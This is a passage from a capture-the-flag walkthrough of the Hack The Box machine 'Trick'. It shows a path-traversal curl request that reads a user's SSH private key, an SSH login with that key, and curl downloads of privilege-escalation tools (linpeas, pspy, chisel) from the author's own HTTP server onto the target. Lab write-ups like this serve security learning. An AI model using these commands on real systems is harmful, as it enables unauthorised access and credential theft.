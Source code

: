 ```bash
curl http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././home/michael/.ssh/id_rsa -o id_rsa
```

Now, set proper file permissions on the key (ssh will complain / remind you if you don't), and log in via ssh:

```bash
chmod 600 id_rsa
ssh michael@trick.htb -i id_rsa
```

![logged in as michael](logged in as michael.png)



## USER FLAG

### User: michael

To make privilege escalation easier, I decided to serve my "small toolbox" over to the target machine. To do this, I hosted a python ``http.server`` with the following tools

```
www
├── chisel
├── index.html
├── LinEnum.sh
├── linpeas.sh
└── pspy
```

```bash
sudo ufw allow from 10.10.11.166 to any port 8000 proto tcp
cd www
python3 -m http.server 8000
```

Noting down my IP address with ``ifconfig tun0``, I downloaded my toolbox from my http server as michael:

```bash
mkdir /tmp/tools
curl -O 10.10.14.5:8000/pspy
curl -O 10.10.14.5:8000/LinEnum.sh
curl -O 10.10.14.5:8000/linpeas.sh
chmod u+x ./*
```

I then took a look at michael's $PATH and cross referenced against locations they can write to:

```bash
id
echo $PATH
find / -user michael 2>/dev/null | grep -v proc
find / -group security 2>/dev/null | grep -v proc
```
